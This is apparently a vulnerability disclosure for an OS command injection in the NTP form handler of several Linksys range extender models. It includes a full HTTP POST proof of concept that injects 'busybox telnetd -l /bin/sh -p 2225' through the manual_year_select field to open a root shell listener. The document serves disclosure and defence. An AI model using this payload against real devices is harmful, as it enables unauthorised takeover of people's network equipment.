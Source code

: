 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `NTP` function, `manual_year_select、manual_month_select、manual_day_select、manual_hour_select、manual_min_select、manual_sec_select` is directly passed by the attacker, so we can control the `manual_year_select、manual_month_select、manual_day_select、manual_hour_select、manual_min_select、manual_sec_select` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `manual_year_select` as **`busybox telnetd -l /bin/sh -p 2225`** , and the router will excute it,such as:

```http
POST /goform/NTP HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 241
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=WU2wxPWkJ2bVXSRyNWO0cci74EJ5jgkF
Upgrade-Insecure-Requests: 1

timeTag=manual&enableNTP=on&DSTenable=on&DSToffset=&DSTStart=&DSTEnd=&time_zone=pjqwudi&manual_year_select=`busybox telnetd -l /bin/sh -p 2225`&manual_month_select=&manual_day_select=&manual_hour_select=&manual_min_select=&manual_sec_select=
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

